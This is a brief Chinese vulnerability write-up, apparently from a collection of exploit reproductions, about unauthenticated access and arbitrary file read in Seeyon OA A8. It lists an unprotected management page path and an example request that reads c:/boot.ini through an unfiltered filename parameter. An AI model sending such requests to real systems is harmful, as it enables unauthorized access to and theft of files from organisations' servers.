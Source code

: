 ```yaml
---
title: 致远OA A8 未授权访问
id: zhfly3352
---
```


# 致远OA A8 未授权访问

## 一、漏洞简介

## 二、漏洞影响

致远OA A8

## 三、复现过程

该地址为性能监控后台，存在未授权访问

seeyon/management/status.jsp

任意文件读取漏洞,由于对filename未进行过滤，导致可下载读取任意文件

```
http://www.0-sec.org/seeyon/main.do?method=officeDown&filename=c:/boot.ini 
```